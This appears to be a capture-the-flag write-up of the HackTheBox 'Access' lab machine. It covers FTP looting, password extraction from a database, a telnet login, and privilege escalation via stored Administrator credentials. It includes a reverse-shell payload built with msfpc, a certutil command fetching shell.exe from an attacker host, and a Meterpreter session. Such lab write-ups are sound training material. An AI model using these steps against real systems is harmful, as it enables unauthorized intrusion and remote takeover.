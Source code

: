 ```yaml
---
layout: post
title: Access writeup  (HackTheBox)
---
```


# Information Gathering
I started with an `nmap` scan.
```
nmap -sC -sV -oA nmap/access -v 10.10.10.98
```
3 ports came out of the scan:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

anonymous login is allowed on the FTP, so I checked that first.
There were two directories, `Backups` and `Engineer`. I first checked `Backups` because it sounds interesting. It contained a file called `backups.mdb`, which was a Microsoft Access Database. Then I checked the `Engineer` directory, which contained a file called `Access Control.zip`, so I downloaded it. I tried unzipping `Access Control.zip` but it required a password. So I took a look at `backup.mdb` using `strings` to see if I could find a password. After some time I found the string `access4u@security` which looked like it would work as a password. I unzipped the file using 7z.
```
7z e -paccess4u@security Access\ Control.zip
```
and got the file `Access\ Control.pst`, which was a Microsoft Outlook file. 
After opening the file with Outlook I could read an email.
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```
This gave me credentials for a service...

# Getting a shell
I tried `telnet`ing to the box. And got a login prompt, I filled it the credentials I gained from the email.
```
telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```
I went to the `Desktop` folder to get `user.txt`.
```
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
ff1f3b(snip)
```

# Privilege Escalation
I first tried to use PowerUp from github, but it didn't have any results.
Then I checked if there were stored credentials on the box, which appeared to be the case.
```
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
This meant that I could do `runas` as `Administrator`
I created a reverse shell payload using `msfpc`. 
```
msfpc windows 10.10.13.66 1337 msf reverse
```
I set up a listener using the created `.rc` file, and renamed the shell to `shell.exe`.
I downloaded the shell file to `C:\Users\security\AppData\Local\Temp\` using `certutil`
```
certutil -urlcache -split -f http://10.10.13.66:8000/shell.exe
```
Once downloaded I used `runas` to run the shell.
```
runas /savecred /user:Administrator shell.exe
```
I got a connection with the machine.
```
msf exploit(multi/handler) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > cd /Users/Administrator/Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-21 22:55:15 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2018-08-21 23:07:29 +0100  root.txt

meterpreter > cat root.txt
6e1586(snip)
```
